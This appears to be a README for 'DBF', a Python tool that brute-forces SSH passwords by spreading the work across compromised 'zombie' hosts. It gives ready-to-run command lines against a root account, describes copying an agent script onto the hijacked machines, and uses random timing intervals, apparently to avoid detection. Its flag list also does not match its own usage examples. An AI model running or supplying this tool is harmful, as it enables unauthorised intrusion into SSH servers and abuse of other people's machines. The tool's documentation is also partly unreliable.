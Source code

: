 # DBF         
Simple Distributed BruteForcer for SSH        
                  
## Requirement         
**OS system** : Debian/RHEL         
**Runtime Environment** : python27 with(paramiko)        
## Introduction        
\>  *owner.py*  : the master control program ,which is used to connect zombie_host (read from zombie_file) and create distribute tasks(use password dictionary). owner.py is a simple distributed bruteforcer framework.                       
\>  *zombie.py* : the child script program, attacker copy zombie.py to zombie_host after connection succeed. zombie.py is a bruteforcer agent, only support SSH cracking this version.               
## Usage                      
\#slow mode                  
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 10                    
\#fast mode             
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 0.2                 
```text                
-H <target host>  : Host IP of target.                 
-p <target_port>  : Port to connect to on the target.                      
-u <target_user>  ：Provide username when connect to the target.                   
-F <passwd_file>  : Dictionary of passwords.                        
-Z <zombie_file>  : Provide zombie's resource. Format: 192.168.0.1:root:toor.              
-T <type>         : Only support SSH service.              
-l <threads>      ：Run threads number of connects in parallel, default 5.               
-c <interval>     : Defines the minimum wait time in seconds, default 5s. DBF use random time interval technology.The actual time interval is 5.0~10.0 seconds.                
        
```
